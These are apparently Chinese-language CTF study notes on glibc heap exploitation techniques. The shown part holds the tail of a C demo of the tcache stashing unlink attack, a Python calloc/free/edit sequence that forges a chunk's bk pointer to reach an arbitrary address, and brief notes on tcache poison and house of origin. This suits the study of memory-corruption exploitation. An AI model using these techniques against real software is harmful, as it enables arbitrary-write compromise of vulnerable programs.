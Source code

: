 ```c
    printf("Now our fake chunk has been put into tcache bin[0xa0] list. Its fd pointer now point to next free chunk: %p and the bck->fd has been changed into a libc addr: %p\n\n",(void*)stack_var[2],(void*)stack_var[4]);

    //malloc and return our fake chunk on stack
    target = malloc(0x90);   

    printf("As you can see, next malloc(0x90) will return the region our fake chunk: %p\n",(void*)target);

    assert(target == &stack_var[2]);
    return 0;
}

```


**核心思路:**
```python
calloc(0xa0)
for i in range(6):
    calloc(0xa0)
    free(i)
calloc(0x4b0) # 9 
calloc(0xb0) # 10
free(9)
calloc(0x400)

calloc(0x4b0) # 11
calloc(0xb0) # 12
free(9)
calloc(0x400) #13
edit(13, b'\x00'*0x400+p64(prev_size)+p64(size)+p64(target_add-0x10))
calloc(0xa0)
```


**限制:**
- 需要UAF
- 主要适用于只有calloc并且可以分配tcache大小的chunk的情况，对于有malloc，打tcache poison更加方便

**效果:**
- 获得任意地址target_addr的控制权：在上述流程中，直接将chunk_A的bk改为target_addr - 0x10，并且保证target_addr - 0x10的bk的fd为一个可写地址（一般情况下，使target_addr - 0x10的bk，即target_addr + 8处的值为一个可写地址即可）。
- 在任意地址target_addr写入大数值：在unsorted bin attack后，有时候要修复链表，在链表不好修复时，可以采用此利用达到同样的效果，在高版本glibc下，unsorted bin attack失效后，此利用应用更为广泛。在上述流程中，需要使tcache bin中原先有六个堆块，然后将chunk_A的bk改为target_addr - 0x10即可。  



## tcache poison 
主要是通过改写tcache的next指针，实现类似于fastbin的house of spirit的效果。

## house of origin
house of origin 原利用链中的IO_FILE相关利用已经失效了，这里主要关注其绕过无free函数限制的方法，即通过malloc大于top chunk大小的chunk时会先释放top chunk，再拓展堆区域。
